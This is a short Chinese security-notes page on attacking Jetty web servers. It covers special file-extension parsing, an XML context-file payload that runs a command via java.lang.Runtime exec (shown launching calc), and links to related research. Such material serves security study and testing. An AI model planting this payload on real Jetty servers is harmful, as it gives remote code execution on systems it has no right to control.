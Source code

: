- 1、可解析特殊文件扩展名（同 Resin）

![image-20211222143350800](img/28b9dc3344e840718628bafc5217966b.png)

-
2、[A tip for getting RCE in Jetty apps with just one XML file!](https://twitter.com/ptswarm/status/1555184661751648256)

```xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>calc</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
```

测试效果

![](./img/6f51c78bcc1446589bd8e83896d9f0b2.png)


3、[Jetty Features for Hacking Web Apps](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/) `研究思路值得学习`